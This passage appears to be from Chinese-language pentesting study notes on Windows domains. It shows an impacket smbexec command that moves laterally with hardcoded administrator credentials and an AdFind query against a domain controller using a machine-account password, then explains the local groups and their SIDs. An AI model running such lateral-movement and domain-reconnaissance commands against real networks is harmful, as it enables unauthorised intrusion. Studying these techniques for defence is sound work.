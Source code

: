 使用impacket工具远程连接进行域查询，这是横向移动：

```bash
python3 smbexec.py administrator:Admin123456@192.168.10.8 -codec gbk
```

使用adfind工具查询 ，可以使用 adfind 工具执行如下命令用 win7$ 机器账号密码连接域控进行查询

```powershell
AdFind.exe -h 10.211.55.4:389 -u xie\win7$ -up "ex1kgnQg;,hYrwu Nn0_59Bdz<tk<]t;nT:1WPA^N1/\]5fW2S>.ji8bG_VHdp#;]wR7Z IH51G/soN2yahW<N1B,<3#@4aJjky8-9CdTe*,?*\&k32 iOHP" -f "objectcategory=computer" dn
```



## 本地组和域组



### 本地组

```
net localgroup
```

<img src=".\图片\Snipaste_2023-09-16_19-26-31.png" alt="Snipaste_2023-09-16_19-26-31" style="zoom:80%;" />



**administrators**：SID为S-1-5-32-544，此组可以完全控制服务器



**users**：SID为S-1-5-32-545，此组的成员可以执行公共任务，例如运行应用程序、使用本地打印机和网络打印机以及锁定服务器等，当服务器加入域时，**域内的所有域用户默认可以登录除域控外的域内所有主机**，这是因为域的 Domain Users 组默认会被添加到域内所有机器的本地 Users 组内。因此，在域中创建的任何用户帐户都将成为此组的成员。



**Guests**：临时访问帐户，其成员在登录时会创建一个临时配置文件，当该成员注销时，该配置文件将被删除



**Backup Operators**：该组的成员可以备份和恢复服务器上的文件，而不考虑保护这些文件的任何权限。这是因为执行备份的权限优先于所有的文件权限。该组中默认没有成员，该组的SID恒为S-1-5-32-551
